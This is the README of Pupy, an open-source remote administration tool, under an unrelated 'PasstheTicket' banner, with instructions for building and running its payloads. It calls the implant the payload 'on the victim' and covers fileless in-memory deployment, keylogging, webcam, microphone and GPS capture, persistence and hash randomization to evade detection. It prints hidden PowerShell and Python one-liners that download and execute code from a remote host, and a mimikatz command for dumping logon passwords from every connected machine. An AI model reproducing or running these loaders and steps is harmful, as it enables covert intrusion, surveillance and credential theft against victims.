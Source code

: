 **********************************************************
PasstheTicket
**********************************************************


Pupy is an opensource multiplatform Remote Administration Tool.
Pupy can be built to a classic executable, an apk, a pure python file (that can be loaded remotely from a python one-liner), a reflective DLL ... Some of these methods does not leave any trace on disk.
Pupy can load the python interpreter from memory and load any python module remotely from memory (.py, .pyc, .pyd).
You can then access objects on the client side from the serverside transparently with the awesome rpyc library.
Pupy can be used for various purposes :

* security research
* education
* pentesting
* administration
* projects and developments around privacy in python that require very low disk footprints
    ...


Installation
================





::

  git clone https://github.com/n1nj4sec/pupy.git pupy
 cd pupy
 git submodule init
 git submodule update
 pip install -r pupy/requirements.txt
 wget https://github.com/n1nj4sec/pupy/releases/download/latest/payload_templates.txz
 tar xvf payload_templates.txz && mv payload_templates/* pupy/payload_templates/ && rm payload_templates.txz && rm -r payload_templates

You may need to install impacket from https://www.coresecurity.com/corelabs-research/open-source-tools/impacket



Features
==========

 - Multi-platform (tested on windows xp, 7, 8, 10, kali linux, ubuntu, osx, android)
 - On windows, the Pupy payload can be compiled as a reflective DLL and the whole python interpreter is loaded from memory. Pupy does not touch the disk :)
 - pupy can also be packed into a single .py file and run without any dependencies other that the python standard library on all OS
 - pycrypto gets replaced by pure python aes && rsa implementations when unavailable
 - Pupy can reflectively migrate into other processes
 - Pupy can remotely import, from memory, pure python packages (.py, .pyc) and compiled python C extensions (.pyd, .so). The imported python modules do not touch the disk.
 - Pupy is easily extensible, modules are quite simple to write, sorted by os and category.
 - A lot of awesome modules are already implemented!
 - Pupy uses [rpyc](https://github.com/tomerfiliba/rpyc) and a module can directly access python objects on the remote client
 - We can also access remote objects interactively from the pupy shell and you even get auto-completion of remote attributes!
 - Communication transports are modular, stackable and awesome. You could exfiltrate data using HTTP over HTTP over AES over XOR. Or any combination of the available transports !
 - Pupy can communicate using obfsproxy [pluggable transports](https://www.torproject.org/docs/pluggable-transports.html.en)
 - All the non interactive modules can be dispatched to multiple hosts in one command
 - Commands and scripts running on remote hosts are interruptible
 - Auto-completion for commands and arguments
 - Custom config can be defined: command aliases, modules automatically run at connection, ...
 - Interactive python shells with auto-completion on the all in memory remote python interpreter can be opened
 - Interactive shells (cmd.exe, /bin/bash, ...) can be opened remotely. Remote shells on Unix & windows clients have a real tty with all keyboard signals working fine just like a ssh shell
 - Pupy can execute PE exe remotely and from memory (cf. ex with mimikatz)
 - Pupy can generate payloads in various formats : apk,lin_x86,lin_x64,so_x86,so_x64,exe_x86,exe_x64,dll_x86,dll_x64,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky
 - Pupy can be deployed in memory, from a single command line using pupygen.py's python or powershell one-liners.
 - "scriptlets" can be embeded in generated payloads to perform some tasks "offline" without needing network connectivity (ex: start keylogger, add persistence, execute custom python script, check_vm ...)
 - tons of other features, check out the implemented modules

Implemented Transports
====================

 All transports in pupy are stackable. This mean that by creating a custom transport conf (pupy/network/transport/<transport_name>/conf.py), you can make you pupy session looks like anything. For example you could stack HTTP over HTTP over base64 over HTTP over AES over obfs3 :o)

 - rsa
 	- A layer with authentication & encryption using RSA and AES256, often stacked with other layers
 - aes
 	- layer using a static AES256 key
 - ssl (the default one)
 	- TCP transport wrapped with SSL
 - ssl_rsa
 	- same as ssl but stacked with a rsa layer
 - http
 	- layer making the traffic look like HTTP traffic. HTTP is stacked with a rsa layer
 - obfs3
 	- [A protocol to keep a third party from telling what protocol is in use based on message contents](https://gitweb.torproject.org/pluggable-transports/obfsproxy.git/tree/doc/obfs3/obfs3-protocol-spec.txt)
 	- obfs3 is stacked with a rsa layer for a better security
 - scramblesuit
 	- [A Polymorphic Network Protocol to Circumvent Censorship](http://www.cs.kau.se/philwint/scramblesuit/)
 	- scramblesuit is stacked with a rsa layer for a better security
 - udp
 	- rsa layer but over UDP (could be buggy, it doesn't handle packet loss yet)
 - other
 	- Other layers doesn't really have any interest and are given for code examples : (dummy, base64, XOR, ...)

Implemented Launchers (not up to date, cf. ./pupygen.py -h)
==========================================================

 Launchers allow pupy to run custom actions before starting the reverse connection
 - connect
 	- Just connect back
 - bind
 	- Bind payload instead of reverse
 - auto_proxy
 	- Retrieve a list of possible SOCKS/HTTP proxies and try each one of them. Proxy retrieval methods are: registry, WPAD requests, gnome settings, HTTP_PROXY env variable

Implemented Modules (not up to date)
=====================================

All platforms:
^^^^^^^^^^^^^^^^

 - command execution
 - download
 - upload
 - interactive python shell with auto-completion
 - interactive shell (cmd.exe, powershell.exe, /bin/sh, /bin/bash, ...)
 	- tty allocation is well supported on both windows and \*nix. Just looks like a ssh shell
 - shellcode exec
 - persistence
 - socks5 proxy
 - local and remote port forwarding
 - screenshot
 - keylogger
 - run the awesome credential gathering tool [LaZagne](https://github.com/AlessandroZ/LaZagne) from memory !
 - sniff tools, netcreds
 - process migration (windows & linux, not osx yet)
 - ...
 - a lot of other tools (upnp client, various recon/pivot tools using impacket remotely, ...)

Windows specific :
^^^^^^^^^^^^^^^^

 - migrate
   - inter process architecture injection also works (x86->x64 and x64->x86)
 - in memory execution of PE exe both x86 and x64!
 	- works very well with [mimitakz](https://github.com/gentilkiwi/mimikatz) :-)
 - webcam snapshot
 - microphone recorder
 - mouselogger:
 	- takes small screenshots around the mouse at each click and send them back to the server
 - token manipulation
 - getsystem
 - creddump
 - tons of useful powershell scripts
 - ...


Android specific
^^^^^^^^^^^^^^^^^^^^


 - Text to speech for Android to say stuff out loud
 - webcam snapshots (front cam & back cam)
 - GPS tracker !


Build payloads from sources
===========================

Windows EXE/Reflective DLL
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Cross-compile with WINE && VCPP

::

  cd client/sources
  ./buildenv.sh
  ./build.sh

you can also add the flag DEBUG=1 if you want the generated pupy exe to open a console and print debug tracebacks


Android APK
^^^^^^^^^^^^


pupy apk for Android is packaged with kivy and buildozer.


Step 1

follow the instructions from https://kivy.org/docs/guide/packaging-android.html to install buildozer and kivy
On Kali 2.0 I used:

::

  apt-get install python-kivy zlib1g-dev cython
  pip install buildozer

Step 2

::

  cd client/android_sources
  ./build.sh



Generate payloads
=====================

The "client" here refers to pupy's payload running on the victim, and the "server" here refers to the pupy's payload running on the attacker, independently of who initiate the connection (bind or reverse shell).

All available launchers, transports and scriptlets can be seen using the command :

::

  $ python pupygen.py -l


Launchers
^^^^^^^^^^^^

Pupy launchers is an abstraction layer to change the behavior of pupy clients before the connection starts. You can list available launchers with the command :

::

  $ python pupygen.py -h

The connect launcher doesn't do anything special before "client" connecting to the "server" using the configured transport. The bind launcher works like the connect launcher but the "server" needs to connect on the "client". The auto_proxy launcher will try to connect directly to the server, but if it fails, it will try to find the proxy configuration by various methods depending on the OS and attempt to connect using each potential proxy found.



Transport Types
^^^^^^^^^^^^^^

The transport define what protocol pupy will use to exfiltrate. Transports are usually customizable through the launcher options. The default transport used is ssl if none is supplied. Note that Pupy is compatible with obfsproxy's awesome transports like obfs3 or scramblesuit.


Generate Binaries
^^^^^^^^^^^^^^^^^^

payload.py (generated with ./pupygen.py -f py) can be run on windows, linux and osx directly. All dependencies and chosen scriptlets are embedded. However some functionalities won't work on windows like the process migration which needs the compiled binaries.



On Windows
""""""""""""

To generate binaries on windows you can use the precompiled binaries templates :

::

  $ usage: pupygen.py [-h]
                  [-f {client,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky}]
                  [-O {android,windows,linux}] [-A {x86,x64}] [-S] [-o OUTPUT]
                  [-D OUTPUT_DIR] [-s SCRIPTLET] [-l] [-E] [--no-use-proxy]
                  [--randomize-hash]
                  [--oneliner-listen-port ONELINER_LISTEN_PORT]
                  [--debug-scriptlets] [--debug] [--workdir WORKDIR]
                  [{bind,auto_proxy,dnscnc,connect}] ...

 ### Generate payloads for Windows, Linux, OSX and Android.

 positional arguments:
  {bind,auto_proxy,dnscnc,connect}
                        Choose a launcher. Launchers make payloads behave
                        differently at startup.
  launcher_args         launcher options

 optional arguments:
  -h, --help            show this help message and exit
  -f {client,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky}, --format {client,py,pyinst,py_oneliner,ps1,ps1_oneliner,rubber_ducky}
                        (default: client)
  -O {android,windows,linux}, --os {android,windows,linux}
                        Target OS (default: windows)
  -A {x86,x64}, --arch {x86,x64}
                        Target arch (default: x86)
  -S, --shared          Create shared object
  -o OUTPUT, --output OUTPUT
                        output path
  -D OUTPUT_DIR, --output-dir OUTPUT_DIR
                        output folder
  -s SCRIPTLET, --scriptlet SCRIPTLET
                        offline python scriptlets to execute before starting
                        the connection. Multiple scriptlets can be privided.
  -l, --list            list available formats, transports, scriptlets and
                        options
  -E, --prefer-external
                        In case of autodetection prefer external IP
  --no-use-proxy        Don't use the target's proxy configuration even if it
                        is used by target (for ps1_oneliner only for now)
  --randomize-hash      add a random string in the exe to make it's hash
                        unknown
  --oneliner-listen-port ONELINER_LISTEN_PORT
                        Port used by oneliner listeners ps1,py (default: 8080)
  --debug-scriptlets    don't catch scriptlets exceptions on the client for
                        debug purposes
  --debug               build with the debug template (the payload open a
                        console)  --workdir WORKDIR     Set Workdir (Default = current workdir)


::

  $ ./pupygen.py connect --host 192.168.2.131:443
 binary generated with config :
 OUTPUT_PATH = /opt/pupy/pupy/pupyx86.exe
 LAUNCHER = 'connect'
 LAUNCHER_ARGS = ['--host', '192.168.2.131:443']
 SCRIPTLETS = []


Another option is to use the powershell oneliner format to deploy pupy from memory using powershell :

::

  $ ./pupygen.py -f ps1_oneliner connect --host 192.168.0.1:443 --transport http
 [+] copy/paste this one-line loader to deploy pupy without writing on the disk :
  ---
 powershell.exe -w hidden -c "iex(New-Object System.Net.WebClient).DownloadString('http://192.168.0.1:8080/p')"
  ---
 [+] Started http server on 0.0.0.0:8080
 [+] waiting for a connection ...


pupygen.py can embed offline scriptlets with the exe/dll you generate. These scripts will be executed before connecting back and can be used to add some offline capabilities like adding persistence through registry, checking for sandboxed environment, ... etc




On Android
"""""""""""

::

  $ ./pupygen.py -O android connect --host 192.168.2.131:443
 [+] packaging the apk ... (can take a 10-20 seconds)
 ...
 jar signed.

 binary generated with config :
 OUTPUT_PATH = /opt/pupy/pupy.apk
 LAUNCHER = 'connect'
 LAUNCHER_ARGS = ['--host', '192.168.2.131:443']
 SCRIPTLETS = []



On Linux & OSX
"""""""""""""

There is multiple options. The first one is generate a pure python payload and the victim needs to have installed python:

::

  $ ./pupygen.py -f py connect --transport ssl --host 192.168.1.1
 [+] generating payload ...
 embedding /usr/local/lib/python2.7/dist-packages/rpyc ...
 embedding /opt/pupy/pupy/network ...
 [+] payload successfully generated with config :
 OUTPUT_PATH = /opt/pupy/pupy/pupy_packed.py
 LAUNCHER = 'connect'
 LAUNCHER_ARGS = ['--transport', 'ssl', '--host', '192.168.1.1']
 SCRIPTLETS = []


Once the script executed on the linux/OSX host, you should have a pupy session. All non-standard dependencies are packaged inside the payload and loaded from memory.

 The same thing can be loaded remotely from a single line by using the py_oneliner format. This method has the advantage of not leaving any trace on the disk and can be deployed easily from a ssh shell using ssh tunnels

 ::

   $ ./pupygen.py -f py_oneliner connect --transport ssl --host 192.168.1.1

then execute follow the instructions. Your python one-liner should looks like :

::

  python -c 'import urllib;exec urllib.urlopen("http://X.X.X.X:8080/index").read()'


For linux another option is to generate an ELF with

::

  ./pupygen.py -f client -O linux -A x64 -o linux (or ./pupygen.py -f client -O linux -A x64 -o linux connect --host 192.168.xxx.xxx:443 -t ssl)


The third option is use pyinstaller to package a linux/OSX payload to create a standalone binary. This method has the advantage to work even if there is no recent/compatible python version installed on the host. You may need the following hidden imports in your .spec file :


* rpyc
* pycrypto
* rsa
* pyasn1
* uuid
* pty
* tty


Setting up the server
=======================


Using docker
^^^^^^^^^^^^

::

  mkdir /tmp/pupy
 docker run -d --name pupy -p 2022:22 -p 8080:8080 -v /tmp/pupy:/projects alxchk/pupy:unstable
 mkdir -p /tmp/pupy/keys
 cat ~/.ssh/id_rsa.pub >/tmp/pupy/keys/authorized_keys
 ssh -p 2022 pupy@127.0.0.1


The server
^^^^^^^^^^^^

To start the server, you can simply start pupysh.py on the correct port with the correct transport

::

  ./pupysh.py -h
 usage: pupysh [-h] [--log-lvl {DEBUG,INFO,WARNING,ERROR}] [--version]
                  [--transport {obfs3,tcp_ssl_proxy,tcp_cleartext,tcp_ssl,tcp_base64,scramblesuit,tcp_cleartext_proxy}]
                  [--port PORT]

 Pupy console

 optional arguments:
  -h, --help            show this help message and exit
  --log-lvl {DEBUG,INFO,WARNING,ERROR}, --lvl {DEBUG,INFO,WARNING,ERROR}
                        change log verbosity
  --version             print version and exit
  --transport {obfs3,tcp_ssl_proxy,tcp_cleartext,tcp_ssl,tcp_base64,scramblesuit,tcp_cleartext_proxy}
                        change the transport ! :-)
  --port PORT, -p PORT  change the listening port



The shell
=========


Find commands and modules help
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

First of all it is important to know that nearly all commands in pupy have a help builtin. So if at any moment you are wondering what a command does you can type your command followed by -h or --help

::

  sessions -h
 jobs -h
 run -h


This is even true for modules ! For example if you want to know how to use the pyexec module type :

::

  >> run pyexec -h
 usage: pyexec [-h] [--file <path>] [-c <code string>]

 execute python code on a remote system

 optional arguments:
 -h, --help            show this help message and exit
 --file <path>         execute code from .py file
 -c <code string>, --code <code string>
                      execute python oneliner code. ex : 'import
                      platform;print platform.uname()'


Use the completion !
^^^^^^^^^^^^^^^^^^^^^^

Nearly all commands and modules in pupy have custom auto-completion. So if you are wondering what you need to type just press TAB

::

  >> run
 getsystem           load_package        msgbox              ps                  shell_exec
 download            interactive_shell   memory_exec         persistence         pyexec              shellcode_exec
 exit                keylogger           migrate             port_scan           pyshell             socks5proxy
 get_info            linux_pers          mimikatz            portfwd             screenshot          upload
 getprivs            linux_stealth       mouselogger         process_kill        search              webcamsnap
 >> run load_package
 _sqlite3           linux_stealth      psutil             pupyimporter       pyshell            sqlite3
 interactive_shell  netcreds           ptyshell           pupymemexec        pywintypes27.dll   vidcap
 linux_pers         portscan           pupwinutils        pupyutils          scapy


::

  >> run pyexec -
 --code   --file   --help   -c       -h
 >> run pyexec --file /
 /bin/         /etc/         /lib/         /libx32/      /media/       /proc/        /sbin/        /sys/         /var/
 /boot/        /home/        /lib32/       /live-build/  /mnt/         /root/        /share/       /tmp/         /vmlinuz
 /dev/         /initrd.img   /lib64/       /lost+found/  /opt/         /run/         /srv/         /usr/



Escape your arguments
^^^^^^^^^^^^^^^^^^^^^^

Every command in pupy shell uses a unix-like escaping syntax. If you need a space in one of your arguments you need to put your argument between quotes.

::

  >> run shell_exec 'tasklist /V'

If you send a Windows path, you need to double the backquotes or put everything between quotes.

::

  >> run download 'C:\Windows\System32\cmd.exe'

Or

::

  >> run download C:\\Windows\\System32\\cmd.exe



Create Aliases
^^^^^^^^^^^^^^

Modules aliases can be defined in the pupy.conf file. If you define the following alias :

::

  shell=interactive_shell

running the command "shell" will be equivalent as running "run interactive_shell".

As an example, defining the following alias will add a command to kill the pupy client's process with signal 9:

::

  killme = pyexec -c 'import os;os.kill(os.getpid(),9)'



Jobs
^^^^

Jobs are commands running in the background. Some modules like socks5proxy or portfwd automatically start as jobs, but all modules can be run as jobs when used with the --bg argument.

::

  >> run --bg shell_exec 'tasklist /V'
 [%] job < shell_exec ['tasklist /V'] > started in background !


The --bg switch is typically used when you want to execute a long command/module and want the result later while having the shell still functioning.

The jobs output can be retrieved at any moment by using the jobs -p command. From the "jobs" command you can also list jobs status and kill jobs.


::

  >> jobs
 usage: jobs [-h] [-k <job_id>] [-l] [-p <job_id>]

 list or kill jobs

 optional arguments:
 -h, --help            show this help message and exit
 -k <job_id>, --kill <job_id>
 print the job current output before killing it
 -l, --list            list jobs
 -p <job_id>, --print-output <job_id>
						print a job output


Regular jobs can be set in Linux/Unix environments by running your pupysh.py script inside the Screen utility. You can then setup cronjobs to run the below command at whatever intervals you require, this essentially pastes the input after the word 'stuff' into the screen session. Replace 1674 with the ID of your screen session, the echo command is the Enter key being pressed.

::

  screen -S 1674 -X stuff 'this is an example command'$(echo -ne '\015')



Handle multiple clients connected
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

By default pupy launch every module you run on all connected clients. This allows for example to run mimikatz on all connected clients and dump passwords everywhere in one command

::

  run memory_exec /usr/share/mimikatz/Win32/mimikatz.exe privilege::debug sekurlsa::logonPasswords exit


To interact with one client, use the "sessions -i" command

::

  >> sessions -i 1
  ``` to interact with the session 1
  ```code
  sessions -i 'platform:Windows release:7'
  ``` to interact with all windows 7 only
  You can find all the available filtering parameters using the get_info module


Writing a module
====================


Writing a MsgBox module
^^^^^^^^^^^^^^^^^^^^^^

First of all write the function/class you want to import on the remote client
in the example we create the file pupy/packages/windows/all/pupwinutils/msgbox.py

::

  import ctypes
 import threading

 def MessageBox(text, title):
	t=threading.Thread(target=ctypes.windll.user32.MessageBoxA, args=(None, text, title, 0))
	t.daemon=True
	t.start()


then, simply create a module to load our package and call the function remotely

::

  from pupylib.PupyModule import *

 __class_name__="MsgBoxPopup"

 @config(cat="troll", tags=["message","popup"])
 class MsgBoxPopup(PupyModule):
	""" Pop up a custom message box """
	dependencies=["pupwinutils.msgbox"]

	def init_argparse(self):
		self.arg_parser = PupyArgumentParser(prog="msgbox", description=self.__doc__)
		self.arg_parser.add_argument('--title', help='msgbox title')
		self.arg_parser.add_argument('text', help='text to print in the msgbox :)')

	def run(self, args):
		self.client.conn.modules['pupwinutils.msgbox'].MessageBox(args.text, args.title)
		self.log("message box popped !")



and that's it, we have a fully functional module :) This module is only compatible with windows, you can check the same module in the project to see how it's implemented to manage multi-os compatibility.

::

  >> run msgbox -h
 usage: msgbox [-h] [--title TITLE] text

 Pop up a custom message box

 positional arguments:
  text           text to print in the msgbox :)

  optional arguments:
    -h, --help     show this help message and exit
    --title TITLE  msgbox title

